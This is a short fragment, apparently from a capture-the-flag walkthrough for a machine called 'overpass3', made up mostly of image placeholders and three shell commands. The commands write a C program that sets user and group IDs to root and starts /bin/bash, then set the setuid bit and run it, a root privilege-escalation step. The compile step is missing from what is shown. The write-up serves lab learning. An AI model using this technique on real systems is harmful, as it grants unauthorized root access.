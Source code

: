 <img src="overpass3/media/image16.png"
style="width:6.075in;height:2.81667in" />

**echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return
0; }' \> exploit.c**

**sudo chmod +s exploit**
**./exploit**

<img src="overpass3/media/image17.png"
style="width:6.00833in;height:2.24167in" />
